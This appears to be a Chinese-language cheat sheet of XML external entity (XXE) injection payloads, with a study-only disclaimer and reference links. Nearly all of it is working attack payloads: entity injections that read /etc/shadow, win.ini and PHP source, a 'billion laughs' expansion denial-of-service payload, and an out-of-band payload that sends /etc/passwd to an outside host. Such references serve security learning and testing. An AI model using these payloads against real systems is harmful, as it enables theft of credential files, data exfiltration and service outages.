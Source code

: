 # XXE 笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Refence
- [XXE漏洞的学习与利用总结](https://www.cnblogs.com/r00tuser/p/7255939.html)
- [XXE漏洞利用技巧：从XML到远程代码执行](https://www.freebuf.com/articles/web/177979.html)
- [XXE: XML eXternal Entity Injection vulnerabilities](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)
- [浅谈XXE攻击](https://www.freebuf.com/articles/web/126788.html)

---

## 基础 Payload

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///c:/windows/win.ini"> ]>

<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/xxe/aaa.php">]>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file">
%pe;
%param1;
]>
<foo>&external;</foo>

The contents of xxe_file should be:
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>">
```
